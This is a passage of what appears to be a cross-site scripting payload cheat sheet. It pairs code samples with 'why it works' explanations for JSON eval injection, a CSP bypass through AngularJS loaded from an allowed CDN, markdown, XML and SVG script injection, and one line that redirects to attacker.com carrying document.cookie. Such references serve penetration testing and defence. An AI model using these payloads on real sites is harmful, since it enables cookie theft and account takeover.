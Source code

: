 ```javascript
```
*Why it works:* Breaks out of JavaScript string, template literal, or regex contexts and injects code.

### JSON Context Payloads
```javascript
// For data in JSON being processed with eval():
{"key":"value","x":"; alert(document.domain); //"}
```
*Why it works:* Exploits insecure JSON handling where user content isn't properly sanitized before processing.

### Content Security Policy (CSP) Bypasses

#### Using Allowed Source
```javascript
// If script-src 'self' https://trusted-cdn.com is allowed:
<script src="https://trusted-cdn.com/angular.js"></script>
<div ng-app ng-csp>{{$eval.constructor('alert(document.domain)')()}}</div>
```
*Why it works:* Exploits legitimate scripts from allowed domains that can execute arbitrary code.

#### Using DOM Data Exfiltration
```javascript
// Even with strict CSP, you can leak data:
<script>
location='https://attacker.com/?stolen='+document.cookie
</script>
```
*Why it works:* Redirects to an attacker-controlled site, leaking sensitive information in the URL.

### XSS in Unusual Contexts

#### XSS in Markdown
```
[Click me](javascript:alert(document.domain))
<img src=x onerror=alert(document.domain)>
```
*Why it works:* Many markdown parsers allow certain HTML tags or don't properly sanitize URLs.

#### XSS in XML
```xml
<xml>
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>
</xml>
```
*Why it works:* XML namespaces can be used to create cross-namespace scripting attacks.

#### XSS in SVG Files
```xml
<svg xmlns="http://www.w3.org/2000/svg">
<script>alert(document.domain)</script>
</svg>
```
*Why it works:* SVG files can contain script tags and are often uploaded as images.
